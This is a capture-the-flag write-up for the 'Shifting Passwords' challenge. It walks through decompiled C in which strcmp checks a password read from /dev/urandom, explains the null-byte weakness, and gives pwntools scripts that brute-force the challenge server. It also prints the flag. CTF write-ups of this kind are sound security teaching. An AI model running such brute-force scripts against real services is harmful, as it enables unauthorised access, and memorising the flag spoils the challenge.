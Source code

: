 # Shifting Passwords
- 981 points

Description
---
Here it is, a secret APOCALYPSE data bank! We even found a binary that close resembles the password verification process.

The only problem is...the password's always changing, at least we think so.

Password cracking is hard, but what if the passwords are never the same...

Interact with the service using:

```nc chals.cyberthon22f.ctf.sg 10201```

Files: [shifting_passwords](./shifting_passwords)

Solution
---
This challenge makes use of bruteforcing `/dev/urandom` thanks to the null terminating string logic bug with strcmp.

The password cracking implies that there is some bruteforcing needed. 

Looking at the main function decompiled in IDA,

```c
  setvbuf(stdout, 0LL, 2, 0LL);
  puts("Welcome APOCALYPSE! Enter the password here: ");
  fgets(s, 128, stdin);
  s2 = (char *)generate_random_password();
  if ( !strcmp(s, s2) )
  {
    stream = fopen("flag.txt", "r");
    if ( !stream )
    {
      printf("Could not find flag.txt!");
      return 1;
    }
    fseek(stream, 0LL, 2);
    v6 = ftell(stream);
    fseek(stream, 0LL, 0);
    ptr = malloc(v6);
    fread(ptr, v6, 1uLL, stream);
    fclose(stream);
    printf("%s", (const char *)ptr);
  }
  else
  {
    puts("Wrong password!");
  }
  free(s2);
  return 0;
}
```

Despite the presence of `malloc()` and `free()`, this is not a heap challenge, and the heap is being correctly used.

Checking the `generate_random_password()` function,

```c
char *generate_random_password()
{
  char *s; // [rsp+0h] [rbp-10h]
  FILE *stream; // [rsp+8h] [rbp-8h]

  stream = fopen("/dev/urandom", "rb");
  s = (char *)malloc(0x80uLL);
  fgets(s, 128, stream);
  fclose(stream);
  return s;
}
```
A bit of googling shows that /dev/urandom is a special file used to generate random numbers.

A bit more googling for "/dev/urandom ctf" reveals that there is a small chance that /dev/urandom will return a first null byte. [https://ctftime.org/writeup/24905]

`strcmp()` makes use of null terminating strings to determine the end of a string. More explanation [here](https://github.com/absurdtiger/Sieberrsec-CTF-3.0/tree/main/Pwn/warmup).

So we can just bruteforce for the small chance a null byte is the first one in the string that returns from `/dev/urandom`.

```python
from pwn import *
context.log_level='debug'

for i in range(1000):
        p = connect("chals.cyberthon22f.ctf.sg",10201)
        p.sendlineafter("Welcome APOCALYPSE! Enter the password here:", b"\x00")
        print(p.recvall())
        p.close()
```
```
$ python3 exploit.py > a.log
$ cat a.log | grep Cyberthon
```
I cleaned up the script because I like wasting time
```python
from pwn import *
context.log_level='debug'

for i in range(1000):
        p = connect("chals.cyberthon22f.ctf.sg",10201)
        p.sendlineafter("Welcome APOCALYPSE! Enter the password here:", b"\x00")
        out = str(p.recvall())
        p.close()
        if out.find("Cyberthon") != -1:
                info.log(out)
                break
        else:
                continue
```

`Cyberthon{nu11_t3rm1n4t0r5}`

Remarks
---
- initially thought it was heap because malloc() and free() but it didn't mean anything and looked like it was properly used; I do wonder if it's possible to solve this challenge by exploiting the heap
